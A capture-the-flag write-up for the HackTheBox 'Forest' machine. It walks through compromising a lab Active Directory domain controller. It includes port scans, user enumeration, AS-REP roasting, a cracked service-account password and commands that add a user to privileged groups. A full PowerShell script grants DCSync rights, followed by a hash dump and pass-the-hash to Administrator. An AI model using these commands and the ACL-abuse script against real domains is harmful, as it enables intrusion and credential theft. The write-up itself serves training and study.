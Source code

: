 #  Forest - HackTheBox WriteUp

![info_card](/images/forest/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```
Full TCP Nmap Scan:
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain?      syn-ack ttl 127
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-11 19:16:21Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49908/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

#### Enumerating Samba (Enum4linux)
Discovered the following users: 

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## Exploitation

Doing a bit of cleanup to obtain only the usernames and trying all the users with Impacket GetNPUsers.py


![getnpusers1](/images/forest/getnpusers1.png)

![getnpusers2](/images/forest/getnpusers2.png)


We obtain the hash for user svc-alfresco.

Password crack with Hashcat:


![crack_svc_alfresco](/images/forest/crack_svc_alfresco.png)

#### Foothold

Trying to authenticate using evilwin-rm with credentials svc-alfresco:s3rvice

![auth_alfresco](/images/forest/auth_alfresco.png)

#### Post Exploitation Enumeration

Running Sherlock brought NO luck
 and nothing juicy from WinPeas output.

Couldn't run systeminfo in order to try windows-exploit-sugester

After realising that we are dealing with AD here, bloodhound seems a logical way to go check for privilege escalation.

We download and run Sharphound.ps1 to our victim.

Running bloodhound on our host system

```
apt install bloodhound

neo4j console 

bloodhoud
```

and uploading the output from the victim:

![hound_out](/images/forest/hound_out.png)

This shows that we have a path to Administrator from our svc-alfresco user.

The WriteDacl permissions on svc-alfresco seen from the below screenshot will make it possible to grant DCSync rights to a user and then be then we can further dump the Administrator password.


![hound_out](/images/forest/hound_out2.png)

Searching on google we find many articles related to **Exchange Windows Permissions Privilege escalation.**

## Privilege Escalation

After failing with Privexchange and AclPWN ( note: at this point I was trying to escalate directly with my first user "svc-alfresco")

This this git page appeared to have exactly what was needed.
[github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) 

Add new user: 

`net user chris password1 /ADD /DOMAIN
`

Add user to Remote Management group ( to allow remote 
connections using WinRM/EvilWinRM): 

`net localgroup "Remote Management Users" /add chris
`

Add user to group "Exchange Windows Permissions": 

`net group "Exchange Windows Permissions" 
`

Add user to group "Organization Management(suggested in the article)": 

`net group "Organization Management" /add chris
`

Then follow the script as user chris:

But first import powerview.ps1 in order to leverage cmdlets get-acl and set-acl from AD


```
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Then Secrets Dump:

![sec_dump](/images/forest/sec_dump.png)


Authentication with the hash and root flag:


![root_auth_n_flag.png](/images/forest/root_auth_n_flag.png)


**Extra:** 

The machine had PowerView.ps1, a users.txt and revert.ps1 used for reversing the state of the machine for the svc-alfreco account permissions

Top 5 References:

1.	https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md
2.	https://github.com/dirkjanm/privexchange/
3.	https://github.com/fox-it/Invoke-ACLPwn
4.	https://spookysec.net/2019-12-01-domain-controller-sync/
5.	https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

Failed attempts:

* https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
* https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/
* https://www.theregister.co.uk/2019/01/25/microsoft_exchange_domain_admin_eop/

Likely due to the fact that I was testing with the active user svc-alfresco

Thanks for reading!

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">

